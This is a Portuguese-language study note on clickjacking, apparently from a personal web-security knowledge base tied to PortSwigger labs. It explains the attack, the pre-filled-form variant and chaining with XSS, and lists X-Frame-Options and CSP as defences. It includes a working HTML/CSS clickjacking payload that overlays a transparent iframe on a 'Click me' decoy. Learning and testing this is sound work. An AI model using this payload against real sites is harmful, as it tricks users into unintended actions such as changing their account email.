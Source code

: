 #vuln #web 

Clickjacking é um ataque que engana o usuário para clicar em um elemento da página que é invisível ou que está disfarçado como outro elemento.

No ataque, o hacker incorpora o site legítimo com um `iframe` no site falso.

Lab: [[Clickjacking - basic clickjacking with CSRF token]]

O Burp oferece o **Clickbandit** para criar POC.

### Form pré-preenchido

Algumas vezes é possível preencher os campos de um formulário, usando parâmetros GET, quando a página carrega. Com isso, o hacker pode enviar o payload de clickjacking para que o usuário pressione o botão de submit do formulário.

```html
<style>
iframe {
	position:relative;
	width: 500px;
	height: 700px;
	opacity: 0.1;
	z-index: 2;
}

div {
	position:absolute;
	top:470px;
	left:60px;
	z-index: 1;
}
</style>

<div>Click me</div>
<iframe src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```

### Clickjacking + XSS

É possível combinar essas duas vulnerabilidades, quando é identificado uma falha XSS mas que precisa de um click do usuário para disparar o payload. Se a página também for vulnerável à clickjacking, você pode abusar disso para explorar o payload XSS.

## Como prevenir

- `X-Frame-Options`
- [[XSS#Content security policy (CSP) |CSP]]
## Referência
https://portswigger.net/web-security/clickjacking